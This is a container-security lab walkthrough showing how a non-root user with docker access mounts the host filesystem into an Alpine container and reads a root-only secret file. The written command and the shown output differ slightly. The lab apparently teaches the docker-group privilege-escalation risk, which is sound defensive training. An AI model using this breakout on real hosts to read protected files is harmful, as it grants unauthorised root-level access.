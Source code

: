 ## Container Breakout - Non-Root Container

### Volume Mounts

* ssh into the container virtual lab or open Terminal in the VM

    ```
    ssh root@<IPAddrGivenToYou>
    password: <passwordGivenToYou>

    ```

* Run `whoami` to confirm that you are the `root` user.

```commandline
root@we45:~# whoami
root
root@we45:~#
```

* Validate that there's a secrets file in the root dir with `cat secret.txt`

* Run `sudo su we45` to login as a normal user.

    ```commandline
    root@we45:~# sudo su we45
    we45@we45:~$
    ```

* Check if the user `we45` has access to `docker` by running `docker images` and `docker ps`

    ```commandline
    we45@we45:~$ docker images
    we45@we45:~$ docker ps
    ```

* Run `cat /root/secret.txt` read the content of `secret.txt` file that was created by `root` user.

```commandline
we45@we45:~$ cat /root/secret.txt
cat: /root/secret.txt: Permission denied
```

* Run `docker run -ti --rm -u 1000 -v /root:/hostFS/ alpine sh` as `we45`(non-root user)

```commandline
we45@we45:~$ docker run -ti -v /:/hostFS/ alpine
/ #
```

* Run `cat /hostFS/secret.txt` to view the content of the file.

```commandline
/hostFS/root # cat secret.txt
This is a secret
```

* Run `exit` to exit from the container.

```commandline
/hostFS/root # exit
we45@we45:~$
```


* Run `clean-docker` to stop all the containers

```commandline
root@we45:~$ clean-docker
```